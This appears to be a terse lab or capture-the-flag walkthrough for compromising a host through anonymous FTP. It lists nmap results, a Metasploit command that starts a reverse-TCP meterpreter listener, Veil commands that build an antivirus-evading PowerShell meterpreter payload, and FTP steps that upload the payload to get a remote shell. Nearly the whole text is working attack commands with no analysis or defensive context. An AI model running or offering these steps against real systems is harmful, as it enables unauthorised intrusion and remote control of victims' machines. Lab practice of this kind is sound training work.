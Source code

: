 # IP
```
192.168.247.53
```

# nmap
```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

# meterpreter listener
#meterpreter #meterpreter_listener 
```
$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.216;set LPORT 443;run;"
```

# veil
#veil 
1. Install [veil](https://github.com/Veil-Framework/Veil)
```sh
sudo apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

# exploit
1. Build the payload using veil #veil
```
$ veil -t Evasion -p powershell/meterpreter/rev_tcp.py --ip 192.168.45.216 --port 443
$ mv /var/lib/veil/output/source/payload.bat .
```
2. upload using ftp
```
ftp
open 192.168.247.53 21
anonymous
password_anything!
passive       <--- this will swithc between passive and active mode
binary
put payload.bat
```
3. get meterpreter shell back

